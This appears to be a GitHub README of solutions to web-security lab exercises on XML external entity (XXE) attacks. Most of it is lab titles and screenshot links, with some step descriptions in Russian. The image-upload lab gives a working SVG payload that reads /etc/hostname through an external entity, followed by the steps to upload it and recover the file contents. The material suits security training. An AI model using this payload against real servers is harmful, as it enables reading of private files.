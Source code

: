 Lab: Exploiting XXE using external entities to retrieve files

![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_1.PNG)

Lab: Exploiting XXE to perform SSRF attacks

![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_2.PNG)

Lab: Exploiting XInclude to retrieve files

![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_3.PNG)

Lab: Exploiting XXE via image file upload

Создайте локальный образ SVG со следующим содержимым:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
И закидываем на сайт в комментарии:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_4_1.PNG)
Смотрим код страницы где оставлен комментарий и ищем пикчу с содержимом в нем коде:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_4_2.PNG)
Пикча с кодом:
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_4_3.png)
Вводим код с картинки
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_4_4.PNG)
Работает)
![Image alt](https://github.com/Svizy/Prack-2020/blob/master/xxe/lab_xxe_4_5.PNG)
